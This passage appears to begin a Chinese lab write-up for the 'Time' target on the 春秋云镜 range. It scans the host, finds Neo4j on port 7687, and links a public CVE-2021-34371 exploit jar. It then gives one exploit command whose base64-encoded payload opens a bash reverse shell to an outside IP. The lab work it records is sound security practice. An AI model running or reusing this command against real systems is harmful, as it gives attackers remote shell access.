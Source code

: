 # 春秋云镜-Time

# 外网打点

## 信息搜集

fscan扫描

[![](assets/1705540441-615b4dba432f8c7d47d1cf41bafd2d4e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175111-c7b38f42-b454-1.png)

发现7687端口开放，7687为Neo4j端口

## 漏洞利用

搜索相关RCE漏洞发现

[https://github.com/zwjjustdoit/CVE-2021-34371.jar](https://github.com/zwjjustdoit/CVE-2021-34371.jar)

直接利用即可

```plain
java -jar rhino_gadget.jar rmi://39.101.181.53:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTkuMy4yMTUuMTk4Lzc3NzcgMD4mMQ}|{base64,-d}|{bash,-i}"
```
